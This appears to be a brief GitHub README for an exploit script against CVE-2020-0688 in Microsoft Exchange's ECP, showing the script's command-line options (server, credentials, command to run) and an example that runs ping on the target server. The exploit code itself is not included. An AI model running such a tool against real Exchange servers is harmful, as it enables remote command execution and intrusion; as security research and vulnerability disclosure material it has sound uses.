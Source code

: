 # cve-2020-0688
Usage:
```
usage: cve-2020-0688.py [-h] -s SERVER -u USER -p PASSWORD -c CMD

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        ECP Server URL Example: http://ip/owa
  -u USER, --user USER  login account Example: domain\user
  -p PASSWORD, --password PASSWORD
                        Password
  -c CMD, --cmd CMD     Command u want to execute
```

example:
```
python cve-2020-0688.py -s https://ip/owa/ -u user -p pass -c "ping www.google.co.kr"
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200227105319.png)

